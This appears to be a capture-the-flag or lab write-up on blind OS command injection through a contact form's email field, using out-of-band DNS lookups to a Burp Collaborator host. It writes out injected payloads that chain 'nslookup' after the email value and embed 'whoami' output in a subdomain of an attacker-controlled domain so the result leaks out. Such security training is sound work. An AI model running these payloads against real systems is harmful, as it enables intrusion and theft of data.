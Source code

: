 We have Burp Collaborator. We just need to create a payload that performs an nslookup to our Burp Collaborator:
`csrf=VdthmKilhrNNkNxxJYbDD5EkqXyv0KrQ&name=test&email=test%40test.es+%26+nslookup+hzkuydwsvjraxh1ygup9zhujlar1fr3g.oastify.com+%23&subject=test&message=asd`
![](imgs/os_command_injection_out_of_band.png)

We can see the request in our collaborator:
![](imgs/os_command_injection_out_of_band-1.png)

We can append a subdomain that is the result of a command (e.g., `whoami`) and get the result of the command as a request. For example, for the `whoami` command:
![](imgs/os_command_injection_out_of_band-2.png)

We get the request to our collaborator with the `whoami` command as a result:
![](imgs/os_command_injection_out_of_band-3.png)
We can also use the following payload:
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``
instead of 
``& nslookup $(whoami).kgji2ohoyw.web-attacker.com &``
